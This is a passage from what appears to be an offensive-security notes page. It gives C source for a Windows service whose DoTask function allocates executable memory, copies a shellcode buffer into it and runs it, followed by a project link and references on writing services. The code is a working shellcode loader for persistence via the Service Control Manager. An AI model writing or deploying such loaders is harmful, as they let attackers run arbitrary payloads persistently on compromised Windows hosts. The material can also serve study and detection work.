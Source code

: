 ```text
}

BOOL TellSCM(DWORD dwState, DWORD dwExitCode, DWORD dwProgress)
{
	SERVICE_STATUS serviceStatus = { 0 };
	BOOL bRet = FALSE;

	RtlZeroMemory(&serviceStatus, sizeof(serviceStatus));
	serviceStatus.dwServiceType = SERVICE_WIN32_OWN_PROCESS;
	serviceStatus.dwCurrentState = dwState;
	serviceStatus.dwControlsAccepted = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_PAUSE_CONTINUE | SERVICE_ACCEPT_SHUTDOWN;
	serviceStatus.dwWin32ExitCode = dwExitCode;
	serviceStatus.dwWaitHint = 3000;

	bRet = SetServiceStatus(g_ServiceStatusHandle, &serviceStatus);
	return bRet;
}

void DoTask()
{

	if (bOnce == FALSE)
	{
		bOnce = TRUE;
		LPVOID Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
		memcpy(Memory, buf, sizeof(buf));
		((void(*)())Memory)();
	}
}
```

github:[https://github.com/idiotc4t/SimpleService.git](https://github.com/idiotc4t/SimpleService.git)

## LINKS

{% embed url="https://www.cnblogs.com/lgxZJ/p/7440116.html" %}



{% embed url="https://docs.microsoft.com/en-us/windows/win32/ad/installing-a-service-on-a-host-computer" %}

{% embed url="https://payloads.online/archivers/2020-04-02/1\#0x05-%E7%BC%96%E5%86%99%E6%9C%8D%E5%8A%A1%E7%A8%8B%E5%BA%8F" %}

{% embed url="https://www.cnblogs.com/hbccdf/p/3491641.html" %}



